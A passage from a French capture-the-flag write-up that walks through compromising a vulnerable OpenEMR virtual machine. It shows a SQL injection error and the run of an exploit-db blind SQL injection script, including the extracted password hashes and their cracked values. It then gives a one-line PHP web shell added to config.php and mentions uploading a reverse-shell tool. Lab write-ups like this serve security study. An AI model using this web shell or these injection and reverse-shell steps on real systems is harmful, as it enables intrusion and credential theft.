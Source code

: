 Ca tombe bien car il y a justement [une injection SQL](https://www.exploit-db.com/exploits/49742) qui touche cette version. Ainsi si je donne un apostrophe en paramètre au script vulnérable, jobtiens :

> ERROR: query failed: select password,length(password) as passlength from users where username = '''
> 
> Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1

L'exploit présent sur exploit-db fonctionne très bien mais est un peu long en raison de l'utilisation de la technique de temporisation (time based blind sql injection).

```shellsession
$ python3 49742.py 

   ____                   ________  _______     __ __   ___ ____ 
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ / 
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/  
    /_/
    ____  ___           __   _____ ____    __    _               
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)              
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /               
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /                
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike 

[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```

Je passe les hashs sur crackstation.net et j'obtiens respectivement `ackbar` et `medical`.

Une fois connecté en tant qu'administrateur j'ai suivi la même technique que pour *DriftingBlues 8* à savoir aller dans `Administration > Files` puis rajouter la ligne suivante au fichier `config.php` :

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

Une fois [GitHub - Fahrj/reverse-ssh: Statically-linked ssh server with reverse shell functionality for CTFs and such](https://github.com/Fahrj/reverse-ssh) uploadé sur la VM, je me rend compte que le système ne peut pas exécuter le binaire. Un petit `uname` permet de voir que le système est en 32 bits contrairement à ce que prétendait l'image VirtualBox.

Heureusement reverse-ssh fournit aussi un binaire 32 bits qui peut communiquer avec son penchant 64 bits :)

On trouve trois dossier sous `/home` mais seulement le premier doit être intéressant :

```
drwxr-xr-x 27 almirant almirant 4096 Jul 29  2020 almirant
drwxr-xr-x 31 medical  medical  4096 Nov  5  2011 medical
drwxr-xr-x  3 root     root     4096 Nov  4  2011 mysql
```
